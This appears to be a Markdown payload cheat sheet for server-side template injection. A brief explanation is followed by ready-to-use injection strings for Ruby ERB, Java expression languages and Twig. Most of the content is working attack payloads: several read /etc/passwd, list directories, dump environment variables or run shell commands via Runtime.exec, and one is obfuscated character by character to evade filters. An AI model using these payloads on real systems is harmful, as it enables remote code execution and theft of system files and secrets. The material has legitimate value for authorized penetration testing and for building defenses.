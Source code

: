 # Server-Side Template Injection
Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side. This vulnerability occurs when invalid user input is embedded into the template engine which can generally lead to remote code execution (RCE).

Template engines are designed to combine templates with a data model to produce result documents which helps populating dynamic data into web pages. Template engines can be used to display information about users, products etc. 

Some of the most popular template engines can be listed as the followings:

* PHP – Smarty, Twigs
* Java – Velocity, Freemaker
* Python – JINJA, Mako, Tornado
* JavaScript – Jade, Rage
* Ruby – Liquid

When input validation is not properly handled on the server side, a malicious server-side template injection payload can be executed on the server which can result in remote code execution.

# List of different Payloads

## Ruby

### Basic Injection
```<%= 7 * 7 %>```

### Retrieve /etc/passwd
```<%= File.open('/etc/passwd').read %>```

### List of files and directories
```<%= Dir.entries('/') %>```

## Java

### Basic Injection
* `${7*7}`
* `${{7*7}}`
* `${class.getClassLoader()}`
* `${class.getResource("").getPath()}`
* `${class.getResource("../../../../../index.htm").getContent()}`

### Retrieve the system’s environment variables
```${T(java.lang.System).getenv()}```

### Retrieve /etc/passwd
* `${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}`
* `${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

## Twig

### Basic Injection
* `{{7*7}}`
* `{{7*'7'}} Would result in 49`

```